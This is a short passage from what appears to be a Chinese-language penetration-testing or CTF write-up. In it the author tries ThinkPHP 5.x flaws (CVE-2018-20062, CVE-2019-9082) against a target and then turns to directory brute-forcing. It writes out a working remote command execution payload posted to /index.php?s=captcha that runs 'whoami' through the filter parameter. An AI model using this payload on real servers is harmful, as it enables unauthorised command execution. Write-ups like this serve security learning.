 ### ThinkPHP 信息泄露

之前接触的场景有 `CVE-2018-20062`, `CVE-2019-9082`; 主要针对 5.x 版本的, 这里先尝试一下:

> 在 `/index.php?s=captcha` 下 POST:

```
_method=__construct&filter[]=system&method=get&server[REQUEST_METHOD]=whoami
```

![16-2.png](16-2.png)

似乎不对, 应该是修复了; 

那先爆破一下目录: 

![16-3.png](16-3.png)
